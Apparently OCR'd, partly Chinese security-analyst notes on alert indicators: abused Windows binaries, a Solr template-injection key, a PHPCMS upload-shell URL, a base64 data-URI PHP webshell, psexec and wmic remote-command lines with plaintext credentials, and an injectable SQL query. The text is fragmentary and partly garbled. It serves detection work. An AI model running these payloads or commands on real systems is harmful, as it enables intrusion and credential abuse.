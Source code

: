 **xbean**  



**https://blog.csdn.net/qq_38154820/article/details/106330132**

**params.resource.loader.enabled  apache solr**漏洞 

关键字段”params.resource.loader.enabled": "true"



**<0b00e2b0>**

**%u0065**

**e%v%a%**



关键进程：**Cmstp.exe installutil.exe hh.exe msxsl.exe wmic.exe control.exe mshta.exe**

**chpasswd iptables useradd**

扫描器**user-agent**







浏览器缓存的检查？**cookie**



告警中的内容：

[https://raw.githubusercontent.com/SecWiki/CMS-Hunter/master/PHPCMS/PHPCMS_v9.6.0_%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/shell.txt?.php#.jpg](https://raw.githubusercontent.com/SecWiki/CMS-Hunter/master/PHPCMS/PHPCMS_v9.6.0_任意文件上传/shell.txt?.php#.jpg) 





data uri schema隐式攻击

Data:image/php;base64,PD9waHAgYXNzZXJ)KCRfUE(TVFsibGVxdSJdKTs/Pg==







psexec.exe \\10.35.188.232 -u gdadmin -p Ah@test741852 cmd

Winds.exe

wmic /node:”ip” /user:a\djddddd /password:”11111” process call create “”cmd.exe /c net user





'SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:



Nj0l0i0261

